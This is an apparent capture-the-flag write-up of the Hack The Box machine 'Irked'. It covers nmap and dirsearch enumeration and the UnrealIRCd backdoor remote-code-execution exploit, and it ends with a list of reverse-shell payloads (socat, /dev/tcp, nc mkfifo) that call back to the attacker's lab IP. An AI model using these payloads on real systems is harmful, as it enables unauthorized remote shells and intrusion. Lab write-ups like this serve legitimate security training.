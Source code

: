 ## ---------------->> Irked <<-----------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.117 -p-
-------

    Nmap scan report for 10.10.10.117
    Host is up (0.39s latency).
    Not shown: 65444 closed ports, 84 filtered ports
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
    |   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
    |   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
    |_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
    80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
    |_http-server-header: Apache/2.4.10 (Debian)
    |_http-title: Site doesn't have a title (text/html).
    111/tcp   open  rpcbind 2-4 (RPC #100000)
    | rpcinfo: 
    |   program version    port/proto  service
    |   100000  2,3,4        111/tcp   rpcbind
    |   100000  2,3,4        111/udp   rpcbind
    |   100000  3,4          111/tcp6  rpcbind
    |   100000  3,4          111/udp6  rpcbind
    |   100024  1          43569/tcp6  status
    |   100024  1          47827/tcp   status
    |   100024  1          54210/udp6  status
    |_  100024  1          57310/udp   status
    6697/tcp  open  irc     UnrealIRCd
    8067/tcp  open  irc     UnrealIRCd
    47827/tcp open  status  1 (RPC #100024)
    65534/tcp open  irc     UnrealIRCd
    Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

// Navigating to http://10.10.10.117/ , represent us with a picture

![Image 1]()

// Lets search for some directories or files with [dirsearch](https://github.com/maurosoria/dirsearch) Tool (By maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.117/ -i 100-400 -t 100
--------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Output File: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.117/_21-08-22_21-09-54.txt

    Error Log: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-08-22_21-09-54.log

    Target: http://10.10.10.117/

    [21:09:56] Starting: 
    [21:10:15] 200 -   72B  - /index.html
    [21:10:17] 200 -  626B  - /manual/index.html
    [21:10:17] 301 -  313B  - /manual  ->  http://10.10.10.117/manual/

// Navigating to http://10.10.10.117/manual/ , represent us with apache 2.4 manual

![Image 2]()

// Nothing much there, lets move on.

// We notice also we have service called UnrealIRCd on ports 6697,8067,65534

    6697/tcp  open  irc     UnrealIRCd
    8067/tcp  open  irc     UnrealIRCd
    65534/tcp open  irc     UnrealIRCd

// Lets search for exploit for UnrealIRCd service on [ExploitDB](https://www.exploit-db.com)

// We see that this service vulnerable to remote code execution
the
![Image 3]()

// Checking the [exploit](https://www.exploit-db.com/exploits/13853) we can see that all he does its to open a socket to connect with,

// and run payload with 'AB' at the start

![Image 4]()

// Now can make our own payload, i used [Revshells](https://www.revshells.com/) help(recipe: nc reverse mkfifo)

![Image 5]()

// Lets try this (tried with port 1444, but didnt work , so tried port 443 and it worked)

socat file:`tty`,raw,echo=0 tcp-listen:1444
AB; socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.16.232:1444

AB; sh -i >& /dev/tcp/10.10.16.232/1445 0>&1
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.232 443 >/tmp/f
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.232 1444 >/tmp/f
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.232 9001 >/tmp/f

/bin/sh | nc 10.10.10.117 1444
AB; rm -f /tmp/p; mknod /tmp/p p && nc 10.10.16.232 1444 0/tmp/p
